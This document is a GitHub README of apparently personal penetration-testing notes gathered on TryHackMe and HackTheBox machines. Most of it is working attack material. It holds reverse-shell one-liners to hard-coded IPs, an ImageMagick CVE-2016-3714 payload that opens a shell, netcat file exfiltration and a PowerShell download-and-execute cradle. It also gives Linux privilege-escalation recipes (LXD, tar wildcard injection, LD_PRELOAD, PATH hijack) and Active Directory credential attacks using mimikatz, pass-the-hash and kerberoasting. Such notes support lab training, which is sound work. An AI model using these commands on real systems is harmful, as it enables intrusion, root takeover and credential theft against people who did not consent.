 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

### [notes](./other/notes.md)
### [web](./other/web.md)
### [osint](./other/osint.md)
---
#### Reverse shells
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```
<details><summary>CVE-2016–3714</summary>

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
</details>

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```

---
### Linux Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```bash
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

<details><summary>PATH</summary>

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

</details>

<details><summary>tar</summary>

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
</details>

<details><summary>env_keep += LD_PRELOAD</summary>

```
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

</details>

#### information gathering
```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```
quik one-line bash script with colorful output to enumerate linux machine
```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```

<details><summary> links </summary>

* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](/other/src/linux_backdoors.md)

</details>

---

### Windows

<details><summary> windows system tools </summary>
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```bash
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```bash
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```bash
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```bash
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```bash
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```bash
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```bash
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```bash
regedit
```
</details>
<details><summary>Group policy objects</summary>
a collection of settings that can be applied to OUs
</details>

<details><summary>PowerShell enumeration</summary>

view all of the hidden files in the current directory
```bash
Get-ChildItem -File -Hidden -ErrorAction SilentlyContinue
```
</details>
</details>

<details><summary> SMB enumeration </summary>

enumerate

```bash
enum4linux -h
```
open SMB shares

```bash
smbclient -L $IP
smbclient //$IP/share # -c 'recurse;ls' 
```

enumeration
```bash
smbmap -H $IP
smbmap -H '$IP' -u '' -p '' -R 
smbmap -H '$IP' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```bash
nmap -p 139,445 -Pn -script smb-enum* $IP
nmap -p 139,445 -Pn -script smb-vuln* $IP
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

connect with smbclient

```bash
smbclient \\\\$IP\\nt4wrksv
```

</details>

<details><summary>rdp </summary>

```bash
rdesktop -u <username> -p <password> $IP -g 70% -r disk:folder=/home/toor/cd/apps
rdesktop -u Administrator -d CONTROLLER $IP
remmina 
```

</details>

<details><summary>AD</summary>

extract credentials and secrets from a systemdump
```bash
impacket-secretsdump <domain.local>/<user>:<password>@<ip> 
``` 

where we can pht
```bash
crackmapexec smb <ip>/24 -u '<username>' -H <hash> --local-auth                                
```

login with pht
```bash
impacket-psexec <username>@<ip> -hashes <hash>
```

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting
```bash
responder -I eth0 -rdwv
```

DNSRecon - is a powerful DNS enumeration script
```bash
dnsrecon -d <IP> -t axfr
use auxiliary/gather/enum_dns #with metasploit
```

upload file with cmd
```bash
certutil -split -f -urlcache http://<your IP>/file_to_download
powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<your_ip>/<file>")' #execute file without download (!!)
```

evil-winrm - Windows Remote Management (if 5985 or 5986 ports are open)
```bash
evil-winrm -u <username> -p <password> -i <ip>
upload <file on your ps directory> #to upload file
```

kerberoasting
```bash
sudo ntpdate <target ip>
impacket-GetUserSPNs domain.local/Admin:passwd -dc-ip $IP -request
```

runas.exe (to inject the credentials into memory)
```bash
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

mimikatz
```bash
privilege::debug #ensure that the output is "Privilege '20' ok"
lsadump::lsa /patch #dump hashes
lsadump::lsa /inject /name:krbtgt # dumps hash and security id of kerb ticket
kerberos::golden /user: /domain: /sid: /krbtgt: /id: #create a golden ticket!
misc::cmd #open cmd with elevated priveleges to all machines
```

links
* [WADComs (AD)](https://wadcoms.github.io/)

</details>

<details><summary>enumeration</summary>

run powershell with bypass execution policy
```bash
powershell -ep bypass
```

```powershell
whoami /priv #/groups
net user
net users
net localgroups
net user <user>
net group /domain
net user /domain
net user <user> /domain
Get-ADUser(Get-ADGroup) -Identity <user(group)> -Server <domain> -Properties *
Get-ADUser -Filter 'Name -like "*<user>"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADUser -Filter 'Name -like "*stevens"' -Server <domain> | Format-Table Name,SamAccountName -A
Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com
Get-ADDomain
netsh firewall show state
netsh firewall show config
netstat -ano
findstr /si password *.txt # .xml .ini
findstr /spin "password" *.*
dir /s *pass* == *cred* == *vnc* == *config*
```

PowerView.ps1
powershell
Invoke-ShareFinder
Windows 10 Enterprise Evaluation
get-netuser | select cn #enum domain users
Get-NetGroup -GroupName *admin* #enum domain groups
```

meterpreter
```bash
run post/multi/recon/local_exploit_suggester #in session
getsystem
getprivs
load kiwi #download mimikatz
```


- [powerview](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [sushant747 win priv esc](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)(with vpn)
- [LOLBAS (windows)](https://lolbas-project.github.io/)
- [JAWS](https://github.com/411Hall/JAWS)
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)


</details>

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [WTFBINS (cve)](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
* [hacktricks](https://book.hacktricks.xyz)
* [bash cheatsheet](https://devhints.io/bash)
* [enumeration guide](https://github.com/beyondtheoryio/Enumeration-Guide)
* [tmpfiles](https://tmpfiles.org/)
* [pentest-checklist](https://github.com/Hari-prasaanth/Web-App-Pentest-Checklist)
* [awesome ctf](https://github.com/apsdehal/awesome-ctf)

####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)
- [html enteties](https://www.webatic.com/html-entities-convertor)
- [list of signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

#### Tools
* [reconftw](https://github.com/six2dez/reconftw)
* [google dorks](/HackNotes/other/src/dorks.md)
* [aquatone](https://github.com/michenriksen/aquatone/releases/tag/v1.7.0)(screenshots)
* [nuclei](https://github.com/projectdiscovery/nuclei)(scan for vulns)
* [meg](https://github.com/tomnomnom/meg)(fetch many paths for many hosts)
* [arjun](https://github.com/s0md3v/Arjun)(http param discovery)
* [dalfox](https://github.com/hahwul/dalfox)(find xxs)
* [cdncheck](https://github.com/projectdiscovery/cdncheck)(identifying the technology associated with dns)
* [xxs-encoder](http://evuln.com/tools/xss-encoder/)
* [XXSHunter](https://xsshunter.trufflesecurity.com/app/#/)


* [other links](/HackNotes/other/src/tools.md)

---
Happy hacking!
